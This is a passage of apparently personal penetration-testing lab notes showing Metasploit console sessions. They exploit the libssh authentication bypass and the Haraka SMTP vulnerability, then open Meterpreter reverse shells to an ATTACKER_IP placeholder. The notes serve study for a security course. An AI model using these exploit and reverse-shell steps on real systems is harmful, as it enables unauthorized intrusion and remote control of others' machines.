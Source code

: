 ```bash
msf6 post(multi/manage/shell_to_meterpreter) > run
```

<a id=6.2.3></a>
### Exploiting SSH

SSH is a secure shell yes.  Libssh (SSH C library) version 0.6.0-0.8.0 is vulnerable to an authentication bypass.
It's like a rev2libc, but more in the lines of rev2telnet.

```bash
msf6 > workspace -a RevToTelnet
msf6 > setg RHOSTS [TARGET]
msf6 > setg RHOST [TARGET]
msf6 > search libssh_auth_bypass
msf6 > use auxiliary/scanner/ssh/libssh_auth_bypass
msf6 auxiliary(scanner/ssh/libssh_auth_bypass) > set RPORT [PORT]
msf6 auxiliary(scanner/ssh/libssh_auth_bypass) > set SPAWN_PTY true
msf6 auxiliary(scanner/ssh/libssh_auth_bypass) > run
# we get a ssh session on the bag. 
msf6 auxiliary(scanner/ssh/libssh_auth_bypass) > use post/multi/manage/shell_to_meterpreter
msf6 post(multi/manage/shell_to_meterpreter) > set LHOST [ATTACKER_IP]
msf6 post(multi/manage/shell_to_meterpreter) > set LPORT [ATTACKER_PORT]
msf6 post(multi/manage/shell_to_meterpreter) > set payload linux/x86/meterpreter/reverse_tcp
msf6 post(multi/manage/shell_to_meterpreter) > run
# we got a meterpreter session les goooo!!
```

Something I just learnt:

```bash
# It looks to me that using the post/multi/manage/shell_to_meterpreter is pointless and kind of a waste of time.
# maybe im wrong. but using the following accomplishes the same goal:
msf6 > sessions -u 1
# this will upgrade your shell to meterpreter :)
```

<a id=6.2.4></a>
### Exploiting SMTP

SMTP = mail go brrrrr. EHLO :)

SMTP runs on port 25, 465 or 587. It can be on any of these ports.

We will be exploiting the Haraka SMTP service with version 2.8.9>.

```bash
msf6 > worspace -a SMTP
msf6 > setg RHOST [TARGET]
msf6 > setg RHOSTS [TARGET]
msf6 > db_nmap -sV -sS -O [TARGET]
msf6 > search name:haraka
msf6 > use exploit/linux/smtp/haraka
msf6 exploit(linux/smtp/haraka) > set email_to [VALID_EMAIL_RECEIVER] (root@attackdefense.test)
msf6 exploit(linux/smtp/haraka) > set email_from [EMAIL_SENDER]
msf6 exploit(linux/smtp/haraka) > set payload linux/x64/meterpreter_reverse_http
msf6 exploit(linux/smtp/haraka) > set LHOST [ATTACKER_IP]
msf6 exploit(linux/smtp/haraka) > set LPORT [ATTACKER_PORT]
msf6 exploit(linux/smtp/haraka) > run
```
